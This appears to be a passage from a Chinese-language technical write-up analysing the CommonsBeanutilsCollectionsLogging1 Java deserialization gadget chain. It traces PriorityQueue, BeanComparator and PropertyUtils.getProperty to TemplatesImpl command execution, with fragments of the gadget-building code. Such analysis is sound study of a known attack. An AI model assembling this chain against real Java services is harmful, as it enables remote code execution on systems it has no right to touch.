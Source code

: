 ```java
        siftDownComparable(k, x);
}
```
```java
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```
siftDownUsingComparator 方法才是这里的重点，这里将序列化后得到的对象传入了比较器 comparator 中的 compare 方法中去，在 CommonsBeanutilsCollectionsLogging1 中这个比较器用的是 BeanComparator:
```java
		final BeanComparator comparator = new BeanComparator("lowestSetBit");

		// create queue with numbers and basic comparator
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
```
去看下 BeanComparator(在commons-beanutils 包，同时需要用到 commons-collections 包中的ComparableComparator)中的 compare():
```java
public int compare( T o1, T o2 ) {

    if ( property == null ) {
        // compare the actual objects
        return internalCompare( o1, o2 );
    }

    try {
        Object value1 = PropertyUtils.getProperty( o1, property );
        Object value2 = PropertyUtils.getProperty( o2, property );
        return internalCompare( value1, value2 );
    }
    catch ( IllegalAccessException iae ) {
        throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
    }
    catch ( InvocationTargetException ite ) {
        throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
    }
    catch ( NoSuchMethodException nsme ) {
        throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
    }
}
```
这里的关键在用 PropertyUtils.getProperty 来获取属性的值，比如这里它会去调用 o1.getProperty()，没有去跟它的具体实现了，但是可以用一小段代码来证明:
![](https://i.loli.net/2017/08/17/59950c77b3c82.png)
只要 o1 为 TemplatesImpl，property 为 outputProperties 就可以触发 TemplatesImpl.GetoutputProperties()从而执行命令。使用 PropertyUtils.getProperty 需要 commons-logging 包，不然会抛出异常。
接下来要做的就比较明确了，先添加正常的数据再通过反射去替换掉 queue 中的对象和 property，因为 PriorityQueue 不支持 non-comparable 对象，这里用到了 Java 的泛型的类型擦除。如果直接使用 queue.add 方法添加 template 会触发 Java 的 SecurityManager 安全机制，抛出异常:
```java
		// stub data for replacement later
		queue.add(new BigInteger("1"));
```